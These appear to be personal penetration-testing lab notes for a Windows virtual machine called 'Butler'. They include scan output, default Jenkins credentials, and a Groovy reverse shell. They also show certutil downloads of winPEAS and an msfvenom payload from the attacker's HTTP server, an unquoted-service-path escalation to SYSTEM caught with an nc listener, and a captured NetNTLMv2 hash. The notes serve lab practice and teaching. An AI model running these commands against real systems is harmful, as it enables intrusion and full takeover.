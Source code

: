 nmap -A -p- 192.168.86.198
        Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-07 18:03 GMT
        Nmap scan report for butler.lan (192.168.86.198)
        Host is up (0.010s latency).
        Not shown: 65523 closed tcp ports (conn-refused)
        PORT      STATE SERVICE       VERSION
        135/tcp   open  msrpc         Microsoft Windows RPC ***
        139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
        445/tcp   open  microsoft-ds?
        5040/tcp  open  unknown
        7680/tcp  open  pando-pub?
        8080/tcp  open  tcpwrapped (https://security.stackexchange.com/questions/23407/how-to-bypass-tcpwrapped-with-nmap-scan)
             (Try not using -A, but specify the -sV switch )
        8080/tcp  open  http          Jetty 9.4.41.v20210516**
        49664/tcp open  msrpc         Microsoft Windows RPC
        49665/tcp open  msrpc         Microsoft Windows RPC
        49666/tcp open  msrpc         Microsoft Windows RPC
        49667/tcp open  msrpc         Microsoft Windows RPC
        49668/tcp open  msrpc         Microsoft Windows RPC
        49678/tcp open  msrpc         Microsoft Windows RPC
        Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
        Host script results:
        |_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:6c:c3:71 (Oracle VirtualBox virtual NIC)
        | smb2-security-mode:
        |   3.1.1:
        |_    Message signing enabled but not required
        |_clock-skew: -1h00m02s
        | smb2-time:
        |   date: 2021-12-07T17:10:21
        |_  start_date: N/A

ffuf - no good
nikto -h::
        + Server: Jetty(9.4.41.v20210516)
        + The anti-clickjacking X-Frame-Options header is not present.
        + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
        + Uncommon header 'x-hudson' found, with contents: 1.395
        + Uncommon header 'x-jenkins' found, with contents: 2.289.3
        + Uncommon header 'x-jenkins-session' found, with contents: 293592d3
        + All CGI directories 'found', use '-C none' to test none
        + Uncommon header 'x-instance-identity' found, with contents: MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAw43hS+kkhDV0LAwc2YVGFglH5IN1zZfBknSOOnM8uzQe2KSrC0PdLp+bTTNiK80Ill04oLGN5LBVAxwJ0koN0X2FPwGLqM6lJQlw9sESCUK0r6SfyTJJMZbsMaUKgwSFePnEbbheH4tPmNxGtI71812KggjsT22Oi5jKHv3rt2OM3dTa4Ma6jwLwke1Iz/rIYmRuW2pUanPVvyg7V2ZiWfqkMkWWs0WN9Y1MnGfyDrIGMYlDIFDZ1w2J25tBTzCR/tWMXOzyZh34hsbZX8a1bzFa7q+DsfL0D/hdDIG6pOuBO8JhffUsKe7qr4Xp2HQ1z/3AQLo4xYq8ojWOq7xX6wIDAQAB
        + Uncommon header 'x-hudson-theme' found, with contents: default
        + Uncommon header 'cross-origin-opener-policy' found, with contents: same-origin
        + ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
        + Scan terminated:  9 error(s) and 8 item(s) reported on remote host
        + End Time:           2021-12-07 18:44:28 (GMT0) (320 seconds)

RPC - https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc
        msf6 auxiliary(scanner/dcerpc/tcp_dcerpc_auditor) > run
        192.168.86.198 - UUID 99fcfec4-5260-101b-bbcb-00aa0021347a 0.0 OPEN VIA 135 ACCESS GRANTED 00000000000000000000000000000000000000000000000005000000
        [*] 192.168.86.198:135    - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed

impacket -

dir -u http://192.168.86.198:8080 -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --wildcard 2>/dev/null | grep "Status: 200"
            /login
            /oops - Jenkins 2.289.3
telnet <ip> 7680
        nothing

msf6 exploit(multi/http/jenkins_metaprogramming) > run
        no luck with msf & jenkins

burpsuite - brute force
        try default creds && similiar names - admin:password, groovy:jenkins
            **    creds jenkins:jenkins - success    **
                https://www.jenkins.io/security/advisory/2021-11-04/ - CVE's
        script console - "Groovy Script"
                upload revshell - https://github.com/gquere/pwn_jenkins
                       shell must be cmd.exe because it's on windows:
                       setup listener on port
                       success
        (sudo python3 -m http.server 80)
                       C:\Program Files\Jenkins>
                       cd C:\Users\butler:
        certutil.exe -urlcache -f http://<ip>/winpeas.exe winpeas.exe (upload winpeas.exe in victim machine)
                  + Enumerating Security Packages Credentials
                    Version: NetNTLMv2
                    Hash:    butler::BUTLER:1122334455667788:9f10d1e8d5de321eafb775fc35764308:0101000000000000856a514757edd701fab398136deb05e4000000000800300030000000000000000000000000300000ff343832e0d09b41a9126e738bd50b412ff9d18df9e88f7fa32ae4c565f0d3200a00100000000000000000000000000000000000090000000000000000000000
                  + Able to start ssh.agent
            unquoted service paths:
                        WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected
                        YOU CAN MODIFY THIS SERVICE: AllAccess
                        File Permissions: Administrators [AllAccess]
                        Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Administrators [AllAccess])
                        In order to optimize system performance,Wise Care 365 will calculate your system startup time.
                Theory: system runs through path & tries to run each dir as an .exe - as a "check"
                        Able to upload script into "spaces" path to exe. IE: ../Wise/Wise.exe
                            Another tool to look into: "Powerup.exe for privesc"
        msfvenom -p windows/shell_reverse_tcp LHOST=wlan0 LPORT=1337 -f exe -o Wise.exe https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae
                        cd C:/Program Files (x86)/Wise ("icacls ." will list permissions of dir)
                        certutil.exe -urlcache -f http://<ip>/Wise.exe Wise.exe
                            nc -lnvp 1337
                            C:/Program Files (x86)/Wise/B.exe (If ran this way - will execute as butler)
                                Must stop service that is running : "sc stop WiseBootAssistant"::
                                    SERVICE_NAME: WiseBootAssistant **((sq query WiseBootAssistant % to make sure it is stopped))**
                                            TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
                                            STATE              : 3  STOP_PENDING
                                                                    (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
                                            WIN32_EXIT_CODE    : 0  (0x0)
                                            SERVICE_EXIT_CODE  : 0  (0x0)
                                            CHECKPOINT         : 0x3
                                            WAIT_HINT          : 0x1388

                            sc start WiseBootAssistant (This will start the service as "System" because of the unquoted dir B.exe file)
                                **nc -lnvp 1337 should now have NT Authority/System shell**
                                    See "unquoteddir_privesc.png"


